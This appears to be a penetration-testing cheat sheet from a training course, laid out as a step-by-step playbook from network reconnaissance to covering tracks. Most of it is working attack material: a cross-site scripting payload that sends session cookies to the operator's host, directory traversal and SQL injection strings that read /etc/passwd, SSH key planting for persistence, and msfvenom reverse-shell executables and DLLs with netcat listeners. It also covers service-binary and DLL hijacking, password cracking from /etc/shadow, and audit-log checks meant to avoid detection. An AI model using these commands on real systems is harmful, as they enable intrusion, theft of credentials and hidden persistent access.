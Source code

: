 **1 Recon** {
#1.1 Host Discovery
		Linux: for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
		Windows: for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.
 
#1.2 Port Enumeration 
		nmap -sS -Pn <IP> -p 135-139,22,80,443,21,8080 
		nc -z -v -w 1 <IP> 440-443
#1.3 Port Interrogation
		nc -Cv <IP> 80
			GET / HTTP/1.0
		nmap -sV <IP> -p <port> (Service Version Enum)
		nikto -h <IP> -p <port> (nikto vuln scan)
#1.4 Solid nmap scripts
		--script= 
		dns-brute.nse
		hostmap-bfk.nse
		traceroute-geolocation.nse
		http-enum
		http-robots.txt
		--script-args http-enum.basepath='<Web Server Dir/>' <IP Address>
		smb-os-discovery -> USE FOR WINDOWS
#1.5 Web Service enumeration (for every web page on site:)
		interact with webpage correctly, see whole page, view source
		look for js functions to abuse
		look for robots.txt (what google looks at) (for web crawler) 
			NSE and nikto (burp outside of class)
			nmap -Pn -T5 <IP> -p <HTTP Port> --script=http-robots.txt
			go to robots.txt with firefox	
}
**2 Initial Exploitation** {
#2.1 HTTP/Web Exploitation 
	2.1.0 Cross site scripting 
		test input fields for unsanitized input
			<script>alert("hacked")</script>
		for unsanitized input fields
			start simplehttpserver (3.1)
			 <script>document.location="http://<OPS station IP>:8000/Cookie_Stealer1.php?username=" + document.cookie;</script> (steals user session cookies)
	2.1.1 Directory Traversal
		view_image.php?file=../../../../../../etc/passwd
		view_image.php?file=../../../../../../etc/hosts	
		for passwd copy and paste into text file and grep /bin/bash to get users
		for hosts, can help with networking, maybe looking for other subnets
	2.1.2 Malicious File Upload
		Server doesnt validate extension or size
		/var/www/html -default http server directory
		upload php shell script (mal.php)
		find and call file once uploaded
			look at robots.txt, look for uploads folder
		Useful commands after you exploit - situational awareness
			whoami
			cat /etc/passwd | grep <username>
			netstat -antup
			ls -la /var/www/html -catches things robots.txt might have missed
		2.1.2.1 Getting an SSH login on web service user 
			on ops-station
				ssh-keygen -t rsa -b 4096
				copy public key 
					cat /root/.ssh/id_rsa.pub
			on victim
				mkdir <home dir>/.ssh
				echo "<RSA key>" ><home dir>/.ssh/authorized_keys			
				cat <home dir>/.ssh/authorized_keys		
			on ops-station
				ssh <web service user>@<victim IP>	
	2.1.3 Command injection
		if site has option to do a ping or something
		testing
			; ls -la (in input box)
		can do rsa key injection just like with having the php script
#2.2 SQL Injection
	2.2.1 Starting point
		interact with site correctly
		test sanitization
			' in input field
			   TOM'OR 1='1
			OR 1=1 in GET statement
		check how many colums in table		
			UNION SELECT 1,2,@@version
		exploit with golden statement to check all of the tables, dbs, and columns
			union select table_schema,column_name,table_name from information_schema.columns;
			union select 1,2,LOAD_FILE('/etc/passwd') -can read files
#2.3 Exploit Development
	2.3.1 ELF Buffer Overflows
		-Find non-bounded input fields with gdb (looking for gets or something in red with pdisass)
		-Test Program with non-standard inputs to find if can be broken 
		-test buffer with buffer overflow pattern generator (wiremask)
		-find offset of target register
		-put offset into skel script
		gdb: r <<<$(python skel.py)
			-run script with random inputs to verify in correct register	
		-edit script to target register with possible shellcode (nop sleds, etc.) 		
		 env - gdb (binary)
		 	unset env LINES
			unset env COLUMNS
			show env
			r - crash program (long string to get past bounds)
			info proc map
			find /b <first mem addr of heap> , <last mem addr before stack> , 0xff , 0xe4 (jmp esp)
			-copy first 3 addrs
			-put top of stack little endian into eip in script
		msfconsole
			use payload/linux/x86/exec
			set CMD (whatever you want)
			generate -b "\x00\x0a\x0d" -f python
		put payload into script
		after upload to remote host
			do env - gdb (binary again) 	
	2.3.2 Windows Exploit Development 
		Open Immunity Debugger
		!mona to make sure mona is installed
		Remote Buffer Overflow
			-on linux box
				make skeleton script with code provided
				set socket to correct ip/port
			-on win box
				run secserv in immunity
				watch as script runs against secserv, wait for it to crash and pause
			-on lin box 
				run script
			-Use mona to find EIP Offset
				!mona pc <number>
				!mona findmsp
			-use mona to generate test for bad chars
				!mona bytearray
				drop badchars into script
			-Use Mona to find jmp esp in the dll function
				!mona jmp -r esp -m "essfunc.dll"
			-Generate Payload 
			msfconsole
				use windows/shell_reverse_tcp
				set EXITFUNC=thread -b "\x00" -f c
				set LHOST <Your Host IP>
				set LPORT <listening port>
				generate -b "\x00" -f python
			copy and paste output into script
			nc -lvp <your port>
			run script against server again	

}
**3 Post Exploitation** 
#3.1 Local Host Enumeration 
	3.1.1 Windows
		net user #check user permissions, groups
		tasklist		#Currently running Processes
		tasklist /svc		#Currently running Services
		ipconfig /all
		route print
		dir /a:h	
		dir /o:d	#Order by date
		dir /t:w 
		schtasks
	3.1.2 Linux
		uname -a	#shows kernel version
		cat /etc/hosts  #check hostname->ip
		cat /etc/passwd #check user groups, home dir, shell, etc
		cat /etc/groups 
		(if you have access to root) cat /etc/shadow, john file to get plaintext passwords
		ps -elf #Look for non-standard processes, ssh sessions, servers
		chkconfig 			#SysV 
		systemctl --type=service	#SystemD
		ip a 
		find / -type f -name "cron" 2>/dev/null # Looks for cron
		date	#checking timezones 
		time
		id	#check groups
		sudo -l	#checks what you have root privleges to
		w 		#checks whos logged in
		last 		#when they logged in
		uptime		#check how long the machine has been up
		arp -a 	#check arp cache, very unreliable passive enum
		cat /etc/rsyslog.d/*	#check where logs are stored
		ls /var/spool/cron/contabs	#check cron jobs
		ls -la /tmp
		3.1.2.1 Stealing SSH Tokens
			look for backups in /tmp, 
			
3.2 Linux Post Exploitation
	3.2.1 Privilege Escelation
		sudo -l
		cat /etc/sudoers
		gtfobins for binaries you have access to
		SUID/SGID
			find / -type f -perm /4000 -ls 2>/dev/null
			find / -type f -perm /6000 -ls 2>/dev/null
	3.2.2 Persistence
		Making a User - useradd
		
	
3.3 Windows Post Exploitation
	3.3.1 Service Exploitation
		#Service Enum
			services.msc(Look for Blank Service Description)
			for /f "tokens=2 delims='='" %a in ('wmic service list full^| find /i "pathname'^|find /i /v "system32"') do @echo %a
			wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findsttr /i /v "C:\windows\\" |findstr /i /v """
			sc qc <service name>	
			icacls "<service binary>"
		#Service Exploitation
			rename service binary to something else
			msfvenom -p windows/shell_reverse_tcp LHOST=10.50.x.x LPORT=4444 -f exe > <bin name>.exe
			put mal exe in binary location
			restart victim computer
			nc -lvp 4444
			net start <Service name>
	3.3.2 DLL Hijacking
		#Check Scheduled Tasks
			gui:Task Sched
			powershell:schtasks /query /fo LIST /v | Select-String -Pattern "Task to Run" | find /i /v "com handler"
				-try to find and exploit 3rd party programs
				-stop looking when you hit system32
		#Check Processes 
			tasklist /v | find /i "file"
				-there is no secret to finding malicious processes
				-taking baselines and all that
			query session 
				-Think about what session the task might be running in
				-Watch for session 0 for 3rd party processes
			wmic process get name,processid,parentprocessid,sessionid
				-look for parent process
				-look for everything that process is doing
			wmic process where (processid=<PPID>) list full
				look at Commandline, Description, ExecutablePath
				if svchost
					tasklist /svc | findstr /i "<PPID>"
			cd C:/
			where /R c:\ <app name>
		#DLL HIJACKING
			procmon /AcceptEula
			run <Binary>
				ProcessName = putty.txt
				Path contains .dll
				Result is "NAME NOT FOUND"
					find a .dll to exploit that is being called
			do the injection
				EASY WAY
					ops-station: msfvenom -p windows/shell_reverse_tcp LHOST=10.50.x.x LPORT=4444 -f dll > bad.dll
				HARD WAY
					ops-station: nano bad.c 
					copy code from file, put commands in that you want
					apt-get install mingw-w64 mingw-w64-common mingw-w64-i686-dev mingw-w64-tools mingw-w64-tools mingw-w64-x86-64-dev -y
					i686-w64-mingw32-g++ -c bad.c -o bad.o
					i686-w64-mingw32-g++ -shared -o bad.dll bad.o -Wl,--out-implib,bad.a
			transfer the DLL
				ops-station: python -m SimpleHTTPServer 8000
					base64 bad.dll > base64dll.txt
				victim: http://<ops-station-ip>:8000
					copy/paste txt into new .txt file 
					move base64.txt base64
					certutil -decode base64 <INJECTDLL>.dll
					put dll in same location as vuln exe
						copy "<INJDLLPATH>" "VULNEXEPATH"
	3.3.3 Checking For Persistence
		HKLM/run|runonce
		HKCU/run|runonce
		
		
#3.4 Covering Tracks - Windows
	3.4.1 Auditpol -can only be run from elevated cmd prompt
		auditpol /get /category:*
		auditpol /get /category:* |findstr /i "success failure"
		auditpol /list /subcategory:"detailed Tracking","DS Access"
		auditpol /get /option:crashonauditfail
	3.4.2 Event Logging
		logs are located in C:\Windows\system32\config
		logs in data/xml datatype
		types of logs
			application log - Events logged by apps, errors, etc
			security log - Logon Attempts, resource/object use
			setup log - application setup
			System log - driver failures and application crashes, service creation
		important event IDs 
			4624/4625 - Success/Fail login 
			4720 - Account Created
			4672 - Admin user login
			7045 - Service Creation
			
		WMIC 
			logs stored in %systemroot%\system32\wbem\Logs
			reg query hklm\software\microsoft\wbem\cimom \| findstr /i logging
		Powershell logging - never use powershell
			2.0 - little evidence
			3.0+ - Module Logging
			powershell -command "$psversiontable"
			
			
